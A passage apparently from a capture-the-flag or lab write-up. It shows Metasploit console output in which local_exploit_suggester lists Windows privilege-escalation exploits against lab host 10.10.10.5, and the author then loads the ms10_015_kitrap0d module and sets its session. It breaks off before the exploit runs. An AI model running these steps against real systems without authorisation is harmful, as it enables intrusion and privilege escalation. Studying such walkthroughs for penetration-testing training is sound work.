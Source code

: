 ```text
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > options
Module options (post/multi/recon/local_exploit_suggester): 
   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits
msf5 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

Found lots of potential exploits to try:

```text
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > options
Module options (exploit/windows/local/ms10_015_kitrap0d):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
Exploit target:
   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
```
